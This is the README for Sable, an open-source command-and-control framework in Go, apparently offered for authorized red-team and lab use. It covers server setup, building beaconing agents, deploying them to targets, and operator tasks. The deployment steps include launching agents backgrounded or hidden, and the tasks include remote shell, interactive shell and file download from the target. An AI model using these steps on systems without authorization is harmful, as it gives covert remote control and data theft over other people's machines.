

<h1 align="center">Sable</h1>

<p align="center">
  Open source command and control framework
</p>

<p align="center">
  Go | HTTPS + DNS transports | Web UI + CLI
</p>

Sable is a command-and-control framework written in Go. The Sable server receives encrypted beacons from deployed agents over HTTPS (primary) or DNS (fallback), and exposes an operator interface through a browser-based web UI and an interactive CLI.

---

## Authorized Use

Sable is intended for controlled labs, owned systems, and environments where you have explicit permission to test. Do not deploy agents or operate infrastructure against third-party systems without authorization.

---

## Architecture

```
┌─────────────────────────────────────────────────────┐
│                   Sable Server                      │
│                                                     │
│  :443  (TLS)  — agent HTTPS beacon endpoint         │
│  :53   (UDP)  — optional agent DNS beacon endpoint  │
│  127.0.0.1:8443 (TLS, loopback only)                │
│    ├── /api/…        REST API (JWT-protected)       │
│    └── /             Web UI (served from embed)     │
└─────────────────────────────────────────────────────┘
         ▲                          ▲
   HTTPS beacons              operator traffic
   DNS beacons                (Web UI / CLI)
         │
    ┌────┴────┐
    │  Agent  │  (statically compiled, ldflags-configured)
    └─────────┘
```

The agent polls the Sable server on each sleep interval. Every beacon is AES-256-GCM encrypted with an HKDF-derived key and HMAC-SHA256 authenticated (Encrypt-then-MAC). The MAC covers the agent ID and ciphertext together, preventing cross-agent impersonation. Replayed beacons are rejected with a nonce cache; stale beacons (outside ±2 minutes) are rejected by timestamp.

### Web Console



Additional workflow screenshots:

- [Login screen](images/login.png)
- [Shell command task](images/shell_command.png)
- [Interactive shell](images/interactive_shell.png)
- [Download path autocomplete](images/download_path_autocomplete.png)
- [Download file task](images/download_file.png)
- [Upload file task](images/upload_file.png)

### Network Ports

| Port | Bind | Purpose |
|------|------|---------|
| `443/tcp` | all interfaces | Agent HTTPS beacon listener. Requires root / administrator privileges on many systems. |
| `8443/tcp` | `127.0.0.1` only | Operator web UI and REST API. Access remotely with an SSH tunnel. |
| `53/udp` | all interfaces | Optional agent DNS beacon listener. Enabled only when the server is launched with `--dns-domain`, `SABLE_DNS_DOMAIN`, or `DNS_DOMAIN`. |

---

## Prerequisites

- Go 1.26.2 or later (matches `go.mod`)
- `make` - works on Linux, macOS, and Windows (PowerShell or cmd)
- Root / administrator privileges on the Sable server if binding privileged ports such as `443`, or `53` when DNS fallback is enabled

Agent binaries are cross-compiled from the build host using `GOOS`/`GOARCH`, so you can build from any OS.

---

## Quick Start

### 1. Clone the repository

```sh
git clone https://github.com/aelder202/sable
cd sable
```

Go will download modules automatically during the first build or test run. If you want to pre-warm the module cache, run `go mod download`.

### 2. Run one-time setup

`make setup` generates a unique agent ID, a 32-byte shared secret, and a TLS certificate - everything needed to build and deploy - and writes it all to `config.env`.

```sh
make setup SERVER_URL=https://<your-server-ip>:443
```

`SERVER_URL` must be the externally reachable base URL that agents will beacon to, usually `https://<public-ip>:443`. It is not the operator UI address.

Example output:

```text
[+] Setup complete! (label: main)
    config.env  — agent ID, secret, cert fingerprint, server URL, label (keep secret)
    server.crt  — TLS certificate (deploy alongside sable-server)
    server.key  — TLS private key  (deploy alongside sable-server)

[*] Next: make build
```

`config.env`, `server.crt`, and `server.key` are gitignored. Do not commit them.

### 3. Build the recommended bundle

```sh
make build
```

This builds the Sable server for the current host OS (`sable-server.exe` on Windows, `sable-server` on Linux/macOS) and cross-compiles a Linux agent in one step. By default, configuration is read from `config.env` and the first agent artifact lands at `builds/main/agent-linux`.

If you are building on Linux or macOS but need a Windows Sable server binary for a separate operator host, run `make build-windows-server` instead.

### 4. Start the Sable server

Keep the server binary, `server.crt`, and `server.key` in the same working directory. A password file is the recommended launch method because it avoids leaving the operator password in shell history.

**Windows (PowerShell)**

```powershell
# Password file (recommended)
Set-Content -Encoding ascii -NoNewline .\pw.txt "yourpassword"
.\sable-server.exe --password-file .\pw.txt

# Environment variable
$env:SABLE_OPERATOR_PASSWORD = "yourpassword"
.\sable-server.exe

# stdin
"yourpassword" | .\sable-server.exe
```

**Linux / macOS**

```sh
printf '%s' 'yourpassword' > ./pw.txt
chmod 600 ./pw.txt
./sable-server --password-file ./pw.txt
```

On startup the server prints its TLS fingerprint and confirms listeners:

```text
[*] TLS cert fingerprint (SHA-256): 3a1f...b9c4
[*] Operator API on https://127.0.0.1:8443 | Agent listener on :443
```

The certificate is loaded from `server.crt` / `server.key`. Because `make setup` generates the cert before agent compilation, the fingerprint is already baked into the agent binary.

The operator API binds to `127.0.0.1:8443` only. Open the web UI locally on the Sable server host, or tunnel that port from another workstation instead of exposing it remotely:

```sh
ssh -L 8443:127.0.0.1:8443 user@sable-host
```

### 5. Register the first agent

With the Sable server running, register the agent from the selected env file:

```sh
make register PASSWORD=yourpassword
# [+] Agent registered: f47ac10b-58cc-4372-a567-0e02b2c3d479
```

The agent ID and secret are read automatically from the selected agent env file, which defaults to `config.env`. `make register` talks to `https://127.0.0.1:8443`, so run it on the Sable server host. If you are operating through an SSH tunnel or a different loopback port, use the CLI with `--api` or the REST API directly.

### 6. Deploy the first agent

For a Linux target, transfer `agent-linux` and execute it:

```sh
scp builds/main/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

For a Windows target, build a Windows agent, transfer it to the host, then launch it from PowerShell:

```powershell
make build-agent-windows
Copy-Item .\builds\main\agent.exe C:\Temp\agent.exe
Start-Process -FilePath C:\Temp\agent.exe -WindowStyle Hidden
```

The agent will appear in the web UI and CLI within one beacon interval.

### 7. Open the web UI

Open `https://127.0.0.1:8443` in a browser on the Sable server host, or after creating a local tunnel. Accept the self-signed certificate warning and log in with the operator password.

---

## Common Workflows

### Add more agents

`make setup` creates the first identity in `config.env`; `make register PASSWORD=...` registers that existing first identity. Every additional agent is created with `make register NEW=1 ...`, which writes a new env file under `agents/<label>.env`.

```sh
make register NEW=1 PASSWORD=yourpassword LABEL=web01
# [+] Registered new agent: web01 (id: 3b2f...)
#     env file: agents/web01.env
#     build linux:   make build-agent-linux   AGENT_ENV=agents/web01.env
#     build windows: make build-agent-windows AGENT_ENV=agents/web01.env
```

If you want 3 total agents named `main`, `pc`, and `laptop`, run:

```sh
make register PASSWORD=yourpassword
make register NEW=1 PASSWORD=yourpassword LABEL=pc
make register NEW=1 PASSWORD=yourpassword LABEL=laptop
```

If you instead want 3 total agents named `pc`, `laptop`, and `vm`, create the first one during setup, then add the other two:

```sh
make setup SERVER_URL=https://<your-server-ip>:443 LABEL=pc
make register PASSWORD=yourpassword
make register NEW=1 PASSWORD=yourpassword LABEL=laptop
make register NEW=1 PASSWORD=yourpassword LABEL=vm
```

Labels must be lowercase and may contain only letters, digits, `-`, and `_`. `PC` or `VM` will be rejected; use `pc` and `vm`.

For an additional Linux agent created with `NEW=1`, point the build at that env file:

```sh
make build-agent-linux AGENT_ENV=agents/web01.env
scp builds/web01/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

For an additional Windows agent created with `NEW=1`, use:

```powershell
make build-agent-windows AGENT_ENV=agents/web01.env
Copy-Item .\builds\web01\agent.exe C:\Temp\agent.exe
```

### Manual registration

The Makefile target is the recommended path, but you can also register an agent through the CLI or REST API.

Via CLI:

```sh
# Linux / macOS
./sable-server --cli

# Windows (PowerShell)
.\sable-server.exe --cli
[sable]> register <agent-id-from-config.env> <secret-hex-from-config.env>
```

Via REST API:

```sh
TOKEN=$(curl -sk -X POST https://127.0.0.1:8443/api/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"password":"yourpassword"}' | jq -r .token)

curl -sk -X POST https://127.0.0.1:8443/api/agents \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d "{\"id\":\"<agent-id>\",\"secret_hex\":\"<secret-hex>\"}"
```

### Rebuild after updates

After any code change, a single command rebuilds both binaries:

```sh
make build
```

Restart the Sable server after rebuilding it. If you also need a Windows Sable server binary from a non-Windows build host, run `make build-windows-server` as well. If agent code changed, redeploy the matching agent binary too:

```sh
pkill -f agent && scp builds/main/agent-linux user@target:/tmp/agent
ssh user@target "chmod +x /tmp/agent && /tmp/agent &"
```

If you changed anything under `web/`, rebuild and restart the Sable server you are actually running. The web UI is embedded into the server binary, so browser refresh alone will not pick up new assets.

To re-key (new agent ID, secret, and TLS certificate), delete `config.env`, `server.crt`, and `server.key`, then run `make setup` again.

### Build for other platforms

Common Makefile targets already cover:

```sh
make build-agent-linux
make build-agent-windows
make build-server
```

The Makefile `XWIN` and `XLIN` variables handle the cross-compilation environment on both Unix and Windows shells. To target a platform not covered by the Makefile, pass `GOOS` and `GOARCH` manually:

```sh
# macOS ARM agent (from Linux or macOS)
GOOS=darwin GOARCH=arm64 go build \
  -ldflags "-s -w \
    -X 'github.com/aelder202/sable/internal/agent.AgentID=<id>' \
    -X 'github.com/aelder202/sable/internal/agent.SecretHex=<hex>' \
    -X 'github.com/aelder202/sable/internal/agent.ServerURL=<url>' \
    -X 'github.com/aelder202/sable/internal/agent.CertFingerprintHex=<fp>'" \
  -o agent-macos ./cmd/agent
```

All required values are in the selected agent env file, usually `config.env` or `agents/<label>.env`.

### Enable DNS fallback

DNS fallback is optional. Start the Sable server with the authoritative DNS domain that agents should use:

```sh
./sable-server --password-file ./pw.txt --dns-domain c2.example.com
```

You can also set `SABLE_DNS_DOMAIN=c2.example.com` or `DNS_DOMAIN=c2.example.com` in the server environment. When enabled, the server starts a UDP listener on `:53` and accepts DNS beacon queries under that domain.

Build agents with the same domain by adding `DNS_DOMAIN=c2.example.com` to the selected agent env file or passing it to `make`:

```sh
make build-agent-linux DNS_DOMAIN=c2.example.com
```

The agent tries HTTPS first and falls back to DNS if HTTPS is unreachable. DNS beaconing requires UDP port 53 to be reachable and an NS record pointing the chosen subdomain to the Sable server. DNS fallback is best suited for check-ins and small task responses; large payload workflows such as uploads should use HTTPS.

---

## Operator Interfaces

### Web UI

Open `https://127.0.0.1:8443` in a browser on the Sable server host, or after creating a local tunnel. Accept the self-signed certificate warning, log in with the operator password, and interact with sessions from the sidebar.

**Session list**: agents that have not checked in for 3-10 minutes are highlighted yellow; agents silent for more than 10 minutes turn red. Hovering an agent shows its exact last-seen time.

Use `/` to focus the session filter. The UI also surfaces stale/offline warnings before follow-up tasking.

**Console**:

- Type commands in the input box and press **Enter** or click **Send**
- Press **↑ / ↓** to cycle through command history
- Press **Ctrl/Cmd+K** to focus the task input
- Press **Esc** to cancel a pending upload prompt or kill confirmation
- Click **Clear** to wipe the output and reset deduplication
- Use **Jump To Latest** if you scroll up and want to resume the live output tail

**File upload**: click **Upload** or drag a file onto the console output area. Enter the remote destination path when prompted and click **Send**. Files larger than 36 KB are rejected (base64 overhead keeps the payload under the server's 48 KB limit).

**File download**: use the `download <path>` command. The web UI automatically prepares a remote path browser for online sessions and keeps each session's ready state while it remains online. The Download field stays locked until the selected agent confirms it is ready. After that, type a partial path to see near-real-time suggestions, click a directory suggestion to keep browsing, use the `...` row to go up one directory, or click a file suggestion to fill the final path. The file is automatically decoded and saved to your browser's download folder.

**Kill safety**: the web UI requires a second confirmation click before queueing `kill`.

**Interactive shell**: select **Interactive** in the task composer to open a persistent shell session on the agent host. See [Interactive Shell](#interactive-shell) below.

### Interactive Shell

Typing `interactive` in the console launches a persistent shell session - `/bin/sh` on Linux or `cmd.exe` on Windows - that lives for the duration of the session. Unlike one-off `shell` commands, the interactive shell preserves state across commands:

- **Working directory** - `cd /tmp` affects all subsequent commands
- **Environment variables** - `export TOKEN=abc` is visible to later commands
- **Shell builtins** - `source`, `alias`, and similar operations work as expected

The web UI switches to a terminal-style view: the console border turns green and the agent's hostname appears in the prompt. Output is delivered in near-real time via a server-sent events stream. The agent beacons at 100 ms during interactive mode, and results are pushed to the browser the instant each beacon is received.

The input field stays locked with "waiting for agent..." until the agent confirms it has entered fast-beacon mode, preventing commands from being queued before the shell is ready.

To exit interactive mode, type `exit` or `quit`, or click the **Exit** button.

**Limitations**: interactive programs that require a real TTY (e.g. `vim`, `top`, `sudo` with password prompt) will not work correctly; the shell runs over pipes, not a PTY. Commands that run indefinitely without producing output (e.g. `sleep 9999`) will time out after 60 seconds and restart the shell process.

### CLI

The server must already be running before launching the CLI. Open a second terminal on the same host:

```sh
# Linux / macOS
./sable-server --cli

# Windows (PowerShell)
.\sable-server.exe --cli
```

If you are using a loopback SSH tunnel or a non-default local port for the operator API, point the CLI at that loopback URL explicitly:

```sh
./sable-server --cli --api https://127.0.0.1:9443
```

The CLI is queue-oriented. It can register sessions and queue tasks, but it does not live-stream task output or automatically decode downloads. Use the web UI or `GET /api/agents/:id/tasks` for result review.

| Command | Description |
|---------|-------------|
| `agents` | List all registered sessions and their last-seen time |
| `register <id> <secret-hex>` | Pre-register an agent before deploying |
| `use <agent-id>` | Select a session to interact with |
| `shell <command>` | Queue a shell command on the selected agent |
| `download <remote-path>` | Queue a file read from the selected agent |
| `upload <local-path> <remote-path>` | Read a local file, base64-encode it, and queue an upload to the selected agent |
| `sleep <seconds>` | Queue a beacon interval change |
| `kill` | Queue agent termination |
| `back` | Return to the main prompt |
| `help` | Show all commands |
| `exit` / `quit` | Exit the CLI |

---

## Task Reference

| Command | Syntax | Description |
|---------|--------|-------------|
| `shell` | `shell <command>` | Run a shell command. Outside interactive mode: spawns a new process (`/bin/sh -c` or `cmd /C`). Inside interactive mode: writes to the persistent shell so cwd and environment persist. Output capped at 512 KB; 60-second timeout. |
| `interactive` | Web UI or API | Open a persistent shell session on the agent. Type `exit` or `quit` to close it. |
| `download` | `download <remote-path>` | Read a file from the agent filesystem and deliver it to the operator's browser as a download. Maximum 16 MB. |
| `pathbrowse` | Web UI Download field | Internal helper task that prepares fast beaconing before the operator types a download path. |
| `complete` | Web UI Download field | Internal helper task used by the download path suggestion menu to list matching paths on the selected agent. Completion tasks extend the fast path-browsing window. |
| `upload` | `upload <local-path> <remote-path>` (CLI) or **Upload** (Web UI) | Upload a file to the agent. The CLI base64-encodes the local file for you; the web UI supports button and drag-drop upload. Practical limit is about 36 KB so the payload stays under the API's 48 KB request cap. |
| `sleep` | `sleep <seconds>` | Change the beacon interval on the agent. Accepted range is 1-86400 seconds. |
| `kill` | `kill` | Terminate the agent process. The web UI requires a second confirmation click before queueing it. |

---

## REST API Reference

All endpoints except `/api/auth/login` require `Authorization: Bearer <jwt>`.

| Method | Path | Description |
|--------|------|-------------|
| `POST` | `/api/auth/login` | Authenticate. Body: `{"password":"..."}`. Returns `{"token":"..."}`. |
| `GET` | `/api/agents` | List all registered agents. |
| `POST` | `/api/agents` | Register an agent. Body: `{"id":"...","secret_hex":"..."}`. `id` must be 1-64 alphanumeric+hyphen characters. |
| `GET` | `/api/agents/:id` | Get a single agent with its task output history. |
| `POST` | `/api/agents/:id/task` | Queue a task. Body: `{"type":"shell","payload":"id"}`. Valid task types are `shell`, `download`, `upload`, `complete`, `pathbrowse`, `sleep`, `kill`, and `interactive`. `sleep` accepts `1-86400`, `kill` accepts no payload, `interactive` accepts `start` or `stop`, and `pathbrowse` accepts `start` or `stop`. |
| `GET` | `/api/agents/:id/tasks` | Get the task output history for an agent. |
| `GET` | `/api/agents/:id/terminal/stream` | Server-sent events stream of task output for the agent. Used by the web UI for real-time delivery of interactive shell output and path suggestions. The write deadline is disabled for this endpoint; all others enforce a 10-second write timeout. |

---

## Configuration Reference

### Setup and build variables

| Variable | Used by | Description |
|----------|---------|-------------|
| `SERVER_URL` | `make setup`, agent builds | Externally reachable HTTPS listener URL for agents, usually `https://<public-ip>:443`. |
| `LABEL` | `make setup`, `make register NEW=1` | Human-readable label for the generated agent identity and build directory. |
| `AGENT_ENV` | build and register targets | Env file to load. Defaults to `config.env`; use `agents/<label>.env` for additional agents. |
| `AGENT_ID` | agent builds, registration | Agent identity. Usually generated by `make setup` or `make register NEW=1`. |
| `AGENT_SECRET_HEX` | agent builds, registration | 32-byte shared secret encoded as 64 hex characters. |
| `CERT_FP_HEX` | agent builds | SHA-256 fingerprint of the server certificate. Agents pin this value. |
| `SLEEP_SECONDS` | agent builds | Initial beacon interval. Defaults to `30`. |
| `DNS_DOMAIN` | server startup, agent builds | Optional DNS fallback domain, such as `c2.example.com`. On the server, it enables the UDP `:53` listener unless `--dns-domain` or `SABLE_DNS_DOMAIN` is used instead. |
| `SABLE_DNS_DOMAIN` | server startup | Preferred server environment variable for enabling DNS fallback. |
| `--dns-domain` | server startup | Server flag for enabling DNS fallback for the given authoritative domain. |
| `--debug-addr` | server startup | Optional loopback-only pprof endpoint for diagnosing server stalls, such as `127.0.0.1:6060`. |
| `NEW` | `make register` | Set `NEW=1` to generate and register another agent identity. |
| `PASSWORD` | `make register` | Operator password used by the registration helper. |

### Server password inputs

The Sable server accepts the operator password from the first available source in this order:

1. `SABLE_OPERATOR_PASSWORD`
2. `C2_OPERATOR_PASSWORD`
3. `--password-file <path>`
4. stdin

Prefer `--password-file` or an environment variable over typing secrets directly into commands that may be saved in shell history.

---

## Build Targets

| Target | Output | Purpose |
|--------|--------|---------|
| `make setup` | `config.env`, `server.crt`, `server.key` | One-time setup. Run with `SERVER_URL=https://<public-ip>:443`. |
| `make build` | `sable-server(.exe)` + `builds/<label>/agent-linux` | Recommended default build for the current host. |
| `make build-windows-server` | `sable-server.exe` + `builds/<label>/agent-linux` | Cross-build a Windows Sable server bundle from a Linux/macOS host. |
| `make build-server` | `sable-server(.exe)` | Rebuild only the Sable server for the current host OS. |
| `make build-agent-linux` | `builds/<label>/agent-linux` | Rebuild only the Linux agent. |
| `make build-agent-windows` | `builds/<label>/agent.exe` | Build the Windows agent. |
| `make register` | none | Register the selected agent with the running Sable server. Pass `NEW=1` to create a new identity and `LABEL=<name>` to control its env/build path names. |
| `make gen-secret` | none | Print a random agent ID and 32-byte secret. |
| `make test` | none | Run the unit test suite. |
| `make test-integration` | none | Run integration tests with the `integration` build tag. |

The Sable server binary lands in the repository root. Agent binaries land in `builds/<label>/`. Pass `AGENT_ENV=agents/<label>.env` to target a secondary agent identity instead of the default `config.env`.

---

## Running Tests

Run the default unit test suite:

```sh
make test
```

Run integration tests:

```sh
make test-integration
```

The integration suite is guarded by the `integration` build tag and is not included in a plain `go test ./...` run.

---

## Project Layout

```text
cmd/
  server/       - Sable server entry point (starts listeners + operator API)
  agent/        - agent entry point
internal/
  agent/        - beacon loop, task execution, HTTPS/DNS transports,
                  persistent shell session (shell_session.go)
  agentlabel/   - shared label validation and UUID-prefix fallback
  api/          - operator REST API handlers, JWT auth, middleware,
                  SSE terminal stream (terminal.go)
  cli/          - interactive operator CLI
  crypto/       - AES-256-GCM + HKDF + HMAC primitives
  listener/     - HTTPS and DNS beacon listeners, TLS cert management
  nonce/        - TTL nonce cache for replay protection
  protocol/     - beacon / task encode + decode
  session/      - in-memory agent session store with pub/sub for SSE
tools/
  setup/        - one-time setup: generates config.env, server.crt, server.key
  register/     - registers the agent with the running Sable server via REST API
  gensecret/    - prints a random agent ID + 32-byte secret (low-level utility)
web/            - browser UI (HTML/CSS/JS), embedded into the server binary
agents/         - per-agent env files for additional identities (gitignored)
builds/         - per-agent build artifacts keyed by label (gitignored)
config.env      - generated by 'make setup' (gitignored - contains secrets)
server.crt      - TLS certificate, generated by 'make setup' (gitignored)
server.key      - TLS private key, generated by 'make setup' (gitignored)
```

---

## Security Notes

- The operator API binds to `127.0.0.1:8443` only and is never reachable off-host.
- Agent secrets are excluded from all API responses (`json:"-"`).
- The agent pins the server's TLS certificate by SHA-256 fingerprint; MITM is not possible even with a trusted CA.
- Operator password is hashed with Argon2id (t=3, m=64 MB, p=4) and never stored in plaintext.
- Nonce replay protection uses an atomic check-and-record to close TOCTOU races under concurrent beacons.
- Per-source-IP rate limiting is applied to both beacon transports: 200 HTTPS requests and 128 DNS requests per 10-second window. The higher HTTPS limit accommodates agents in interactive mode and path-browsing mode beaconing at 100 ms intervals.
- Agent IDs are validated at registration to alphanumeric+hyphen characters only, preventing path-traversal and injection via the ID field.
- Task queues are capped at 64 tasks per agent; output history is capped at 256 entries.
- The SSE terminal stream endpoint disables its write deadline to support long-lived connections; a 15-second keepalive comment prevents proxy timeouts from terminating idle streams.
- `config.env`, `server.crt`, `server.key`, `agents/*.env`, password files, and built agent binaries contain sensitive material. Do not commit them.
- On Unix-like systems, restrict local secret files with permissions such as `chmod 600 config.env server.key pw.txt` and `chmod 700 agents`.
- Agent binaries are compiled with `-s -w` to strip symbol tables and DWARF debug info. Note that ldflags string literals (server URL, agent ID, certificate fingerprint) remain visible via `strings` in the `.rodata` section; treat built agent binaries as sensitive artifacts.

---

## Troubleshooting

| Symptom | Check |
|---------|-------|
| `bind: permission denied` on startup | Run the server with root / administrator privileges, or choose non-privileged ports in code. |
| `bind: address already in use` | Another service is already listening on `443` or `8443`. Stop it or change the listener configuration. |
| Browser warns about the certificate | Expected for the self-signed local operator UI. Verify you are opening `https://127.0.0.1:8443`. |
| Web UI is unreachable from another machine | The operator UI is loopback-only. Use `ssh -L 8443:127.0.0.1:8443 user@sable-host`. |
| Agent never appears | Confirm it was registered, built with the matching `AGENT_ENV`, can reach `SERVER_URL`, and has the correct certificate fingerprint. |
| `make register` cannot connect | Start the Sable server first and run registration on the server host, or use the CLI/REST API through a loopback tunnel. |
| Web UI changes do not show up | Rebuild and restart the Sable server; files under `web/` are embedded into the binary. |
| Upload is rejected | Keep the selected file under roughly 36 KB so base64 overhead fits within the 48 KB task payload limit. |
| DNS fallback does not receive beacons | Start the server with `--dns-domain` or `SABLE_DNS_DOMAIN`, confirm UDP `53` is reachable, confirm the agent was built with the same `DNS_DOMAIN`, and verify the NS record points to the Sable server. |
| Server process is listening but not responding | Restart with `--debug-addr 127.0.0.1:6060`, then capture `http://127.0.0.1:6060/debug/pprof/goroutine?debug=2` if it stalls again. |
